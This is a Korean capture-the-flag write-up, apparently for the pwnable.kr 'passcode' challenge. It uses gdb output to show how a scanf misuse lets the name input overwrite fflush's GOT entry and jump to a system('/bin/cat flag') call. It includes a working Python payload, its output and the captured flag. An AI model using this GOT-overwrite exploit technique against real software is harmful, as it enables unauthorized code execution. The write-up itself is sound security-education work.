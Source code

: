 그냥 fflush의 인자로 표준 입력 스트림을 주는 것은 잘못된 방법임.
```
```linux
0x08048593 <+47>:    call   0x8048430 <fflush@plt>
```
```linux
(gdb) x/3i 0x8048430
   0x8048430 <fflush@plt>:      jmp    DWORD PTR ds:0x804a004
   0x8048436 <fflush@plt+6>:    push   0x8
   0x804843b <fflush@plt+11>:   jmp    0x8048410
```
```linux
(gdb) x/x 0x804a004
0x804a004 <fflush@got.plt>:     0x08048436
```
```got```의 값을 확인해봤더니 ```plt+6```의 주소가 들어있음!!  
이를 이용하면 ```jmp```를 통해 ```/bin/cat flag```로 접근할 수 있음. 
```linux
0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af     
0x080485ea <+134>:   call   0x8048460 <system@plt> 

(gdb) x/s 0x80487af
0x80487af:      "/bin/cat flag" <- 얘는 값임, 주소 값이 아님.

주소 값은 0x080485e3임!
```
```
정리하면 name의 끝 4바이트는 passcode1의 값이 됨.

만약 그 값이 fflush의 got주소라면 scanf 함수에 의해 어떤 값이 쓰여지게 될 것임. 

그럼 fflush함수가 실행할 때, jmp 구문에 의해 만약 입력한 값이 주소 값이라면 
그 값으로 이동이 됨. -> 버퍼에 있는 데이터가 없어지지 않기 때문에

이유는 fflush(stdin)은 리눅스에서 적용안될 뿐더러 vs 2015부터도 적용 안됌.
또한 fflush의 인자는 출력 버퍼 스트림이 되어야 함.
```
```linux
passcode@pwnable:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"+"\xe3\x85\x04\x08"';cat) | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
enter passcode1 : enter passcode2 : checking...
Login Failed!
```
**passcode2가 int형이라서 정수 값으로 줘야함.**  
```linux
passcode@pwnable:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"+"134514147"';cat) | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
```
flag : Sorry mom.. I got confused about scanf usage :(
```

